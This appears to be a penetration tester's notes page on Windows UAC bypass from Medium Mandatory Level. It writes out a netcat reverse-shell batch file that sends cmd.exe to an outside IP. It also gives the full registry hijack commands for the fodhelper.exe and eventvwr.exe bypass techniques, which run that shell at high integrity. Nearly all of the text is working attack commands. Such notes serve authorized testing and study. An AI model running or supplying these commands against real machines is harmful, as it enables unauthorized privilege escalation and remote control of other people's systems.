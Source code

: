 
## Medium to High Mandatory Level ( UAC Bypass )

UAC Bypass if groups are shown as the following

```txt
c:\> whoami /groups
...
BUILTIN\Administrators
Mandatory Label\Medium Mandatory Level
...
```

## Upload netcat
![image](https://github.com/albay/notes/blob/main/Pentest/Privilege%20Escalation/Windows/UAC/Pasted%20image%2020220105092144.png)

```txt
# shell.bat
c:\users\public\downloads\nc.exe -e cmd.exe 192.168.119.123 9000
```

## fodhelper.exe
```txt
C:\Windows\System32\fodhelper.exe
```

https://pentestlab.blog/2017/06/07/uac-bypass-fodhelper/

```txt
reg add HKCU\Software\Classes\ms-settings\Shell\Open\command
reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ /f
reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /d "C:\users\public\downloads\shell.bat" /f

c:\> fodhelper.exe
```

![image](https://github.com/albay/notes/blob/main/Pentest/Privilege%20Escalation/Windows/UAC/Pasted%20image%2020220105083809.png)

## eventvwr.exe
```txt
C:\> reg add HKCU\Software\Classes\mscfile\shell\open\command /d "c:\users\public\downloads\shell.bat" /t REG_SZ

C:\> eventvwr.exe
```
